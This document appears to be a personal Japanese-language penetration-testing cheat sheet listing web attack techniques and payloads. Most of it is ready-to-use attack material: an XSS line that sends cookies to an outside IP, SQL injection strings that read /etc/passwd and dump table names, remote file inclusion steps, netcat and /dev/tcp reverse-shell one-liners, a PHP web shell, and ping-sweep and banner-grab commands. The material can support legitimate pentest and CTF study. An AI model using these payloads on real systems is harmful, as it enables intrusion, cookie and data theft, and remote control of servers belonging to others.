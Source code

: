 # MyCheatSheet ver 1.0

* Decode ツール
  1. [CrackStation](https://crackstation.net/)
  2. [DenCode](https://dencode.com/ja/)
  3. [CyberChef](https://gchq.github.io/CyberChef/)
* XSS
  1. `'>"><hr>`を使用して水平線を表示
  2. `<script>alert(1)</script>`でアラート表示
  3. `<script>document.location="http://[ip address]/" + document.cookie</script>`でクッキーを外部に送信
* SQL Injection
  1. 入力値に`'`を入力してエラーの有無を検証
     1. エラーが帰らない場合もある。
     2. 表示されるエラーからドキュメントルート等のディレクトリ情報がある場合がある。
     3. `' union select version() ; #` でdbのバージョン表示  *MariaDB
     4. `' union select load_file('/etc/passwd'); #`　で`/etc/passwd`のファイル内を表示
     5. `' union select column_name from table_name into outfile '/data/mariadb/test.html' fields terminated by ',' optionally enclosed by '"'; #`でsqlの結果を/data/mariadb/test.htmlに出力(カンマ区切りで"で値を囲む)
     6. `' union select table_name,column_name from information_schema.columns; #` でテーブル名とカラム名を取得
* OS Command Injection
    1. 入力値のあとに`;ping -c 3 127.0.0.1`を入力して検証
* CSRF
    1. 正規のリクエストURLを使用してリンクを作成 (URL短縮サービス等を利用すると判別が困難になる。)
    2. 作成したリンクからリクエストが通るかを検証(Refererを検証)
    3. PoCジェネレーターを使用するとHTMLを簡単に作れる。
       [PoC Generator](https://security.love/CSRF-PoC-Genorator/)
* File Inclusion(Remote)
    1. クエリストリングにファイル名があるかを確認
    2. phpinfo()を実行させるphpファイルを作成
    3. ローカルでhttpサーバを立てる`python -m http.server 1030`
    4. 攻撃したいURLの`file=`にローカルのphpファイルのパスを記述
* File Inclusion(Local)
    1. ファイルアップロード時にファイルパスを確認できるかを検証
* 遠隔からのシェル
  * ファイアウォールでインバウンド通信で接続とポートが許可されている場合はバインドシェルが可能
  * アウトバウンド通信は許可されている場合が多いためリバースシェルはファイアウォールを回避しやすい。
  * バインドシェル・リバースシェル netcatを使用
    1. 待ち受け　`nc -vlp 1027`
    2. 接続     `nc -v 192.168.XXX.XXX 1027 -e /bin/bash` (/bin/bashのところはwindowsならcmd.exe)
    3. ncがない場合の接続
       1. `bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1`
       2. `bash -c 'bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1'`
    4. シェルの安定化
       1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
       2. `Ctrl-z`
       3. `stty raw -echo; fg`
       4. `export SHELL=[your shell]`
       5. `export TERM=[your terminal]`
  * Webシェル
    1. 入力を待ち受けできるphpファイルを作成しFile Uploadの脆弱性を利用しアップロード
    2. アップしたphpファイルを利用してweb経由でコマンド実行
        `<?php system($_GET["cmd"]); ?>`
  * PortScan
    1. ping sweet サンプル

       ``` shell 
       for i in {1..254}; do ping xxx.yyy.zzz.$i -c 1 -W 1 | grep ttl | cut -d ' ' -f 4 | tr -d ':' >> ip_list.txt & done
       ```

    2. pingのレスポンスの違い

        | response | 状態                         |
        | :------: | ---------------------------- |
        | SYN,ACK  | IPが存在してPortが開いている |
        | RST,ACK  | IPが存在してPortが閉じている |
        |   None   | パケットがdropされている     |
        |          | IPが存在しない               |
        |          | タイムアウト |

    3. バナーの取得
      `printf "HEAD /index.html HTTP/1.0\r\n\r\n" | nc XXX.YYY.ZZZ.AAA`

